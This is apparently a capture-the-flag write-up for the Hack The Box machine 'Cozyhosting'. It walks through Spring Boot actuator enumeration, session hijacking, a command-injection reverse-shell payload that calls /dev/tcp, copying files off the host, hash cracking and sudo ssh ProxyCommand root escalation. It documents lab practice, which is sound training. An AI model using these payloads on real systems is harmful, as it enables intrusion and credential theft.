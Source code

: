 # Cozyhosting
- Easy Rated Box released on September 2, 2023
- Simple web application with an index and a login page

## Enumeration
    nmap -sCV 10.10.11.230

Reveals that port 80 HTTP and port 22 SSH are in the opened state.
Nmap also reveals the URL to http://cozyhosting.htb/

Added it to my /etc/hosts which will allow me to view the site.

<img src="assets/nmap.png">

Directory enumeration was also done

    gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/common.txt 

Found an interesting admin page and error page. Admin page seems to be giving a 401 unauthorized error that redirects you back to the login page and error page is quite interesting.  

<img src="assets/gobuster1.png">

The error page gives me a generic error page saying "Whitelabel Error Page". 

<img src="assets/error.png">

I decided to google what that means and it's only specific to Spring Boot web applications.  

<img src="assets/Spring.png">

I researched it further and there is a bug in spring boot actuators. These actuators can reveal critical information about the system. <a href="https://www.veracode.com/blog/research/exploiting-spring-boot-actuators">Link</a> if you are interested in reading.  

I decided to enumerate more for these end points.

    gobuster dir -u http://cozyhosting.htb -w seclists/Discovery/Web-COntent/spring-boot.txt

Multiple end points were revealed here.

<img src="assets/gobuster2.png">

## Session Hijack

The one most interesting is /actuator/sessions this reveals an active session with kanderson.

<img src="assets/session.png">

The value next to it seems to be a session cookie. I decided to fire up Burp suite to perform a session hijack with this cookie to get to the admin site.  

<img src="assets/burp.png">

And it worked, I got to the admin page.  

<img src="assets/admin.png">

There's an interesting form at the bottom which allows me to setup the hostname and username to create a connection. I sent this to burp repeater to perform a command injection.   

I set the host to the localhost at 127.0.0.1 and the username to kanderson. It doesn't seem that kanderson is verified, but I did find that app with a uid of 1001 was hosting this.  

<img src="assets/cmd2.png">

Netcat was fired up to listen on port 443 and injected a shorted version of a reverse shell command without any whitespaces.  

<img src="assets/revsh.png">

    host=127.0.0.1&username=app;`(sh)0>/dev/tcp/IP/port`
    exec >&0

It was a success, back in my terminal I was able to get into the app user.  

<img src="assets/success.png">

## Jar File and Other Users

Basic user enumeration was done `sudo -l` doesn't reveal any sudo priveleges for app user, but an interesting jar file was found to be run by app after running `ps aux`.  

<img src="assets/jarfile.png">

The jar file has read permissions, my best guess was that there was credentials from the actuators/env I could find, so I exfiltrated the jar file back to my host.  

<img src="assets/jarfile2.png">
<img src="assets/curl.png">

`cat /etc/passwd` also revealed there's also another user named `Josh`

The jar file contents were extracted and found the credentials for a postgres user.

    jar -xf target.jar

<img src="assets/psqlcreds.png">

## Postgres

Shell upgrade was done for the app user and used the credentials to login to the postgres DB.  

<img src="assets/shellupgrade.png">

In the postgres database, there seems to be a cozyhosting DB with a users table housing the admin credentials.
<img src="assets/postgres1.png">
<img src="assets/postgres2.png">

## Cracking the password

The encryption seems to be bcrypt, so I used hashcat to decrypt it and got the admin password

<img src="assets/crackedpw.png">

    hashcat -m 3200 hash1.txt /usr/share/wordlists/rockyou.txt

## Josh User and PE

After logging into Josh through SSH, basic user enumeration was done `sudo -l` and revealed I can use sudo on SSH.  

PE was done by creating a root shell through ProxyCommand. More can be read <a href="https://gtfobins.github.io/gtfobins/ssh/">here</a>

    sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x

<img src="assets/PE.png">